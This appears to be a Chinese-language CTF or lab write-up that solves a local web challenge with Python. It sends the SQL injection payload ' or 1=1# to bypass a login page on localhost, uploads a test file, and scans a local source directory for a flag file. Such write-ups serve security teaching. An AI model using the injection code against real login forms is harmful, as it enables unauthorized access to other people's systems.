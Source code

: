   - 观察 login.php 以及网页上传参数抓包，可知网页是通过 POST 方式提交相关参数到服务器

  - 创建 usr_data 字典，其中“ name “关键字的值设置为万能注入语句" `' or 1=1#` "，“ password ”关键字的值设置为空

  - ```python
    usr_data = {
        "name" : "' or 1=1#",
        "password" : "",
    }
    usr_header = {
        "User-Agent" : "Mozilla/5.0 (Linux; U; Android 666; en-us; Nexus S Build/GRK39F) AppleWebKit/533.1 (KHTML, like Gecko) Version/666 Mobile Safari/533.1",
        "Referer" : "http://localhost/login.php"
    }
    response = requests.post("http://localhost/login.php", data=usr_data, headers=usr_header)
    ```
    
  - 其中若 `response.url == 'http://localhost/upload.php'` ，则可判断注入成功，成功登录服务器，进入文件上传页面

- 上传测试文件

  - 观察 upload.php 以及网页上传参数抓包，可知网页是通过 POST 方式提交相关参数到服务器

  - 创建 files_test 字典，用于打开测试文件上传功能的测试文件 test.jpg

  - ```python
    files_test = {'file' : open('../ToUpload/test.jpg', 'rb')}
    response_file = requests.post(response.url, files=files_test)
    ```

  - 其中若 `response_file.status_code == 200` 则可判断文件上传成功

- 列出服务器所在目录下的所有文件、子目录、子目录下的文件

  - ```python
    # current_directory = os.path.dirname(os.getcwd())
    current_directory = os.path.dirname(os.getcwd()) + '\\源码\\docker\\src'
    root = current_directory
    
    target_path = 'http://localhost'
    
    def scaner(url, num):
        for f in os.listdir(url):    
            real_url = os.path.join(url, f)
            if path.isfile(real_url):
                print(num*'  ' + 'File: ' + f)
                if 'flag' in f:
                    global target_path
                    length = len(root)
                    tmp = real_url[length:]
                    target_path += tmp
                    target_path = target_path.replace('\\', '/')
            elif path.isdir(real_url):
                pass
        for f in os.listdir(url):    
            real_url = os.path.join(url, f)
            if path.isfile(real_url):
                pass
            elif path.isdir(real_url):
                print(num*'  ' + 'Subfolder: ' + f)
                scaner(real_url, num+1)
     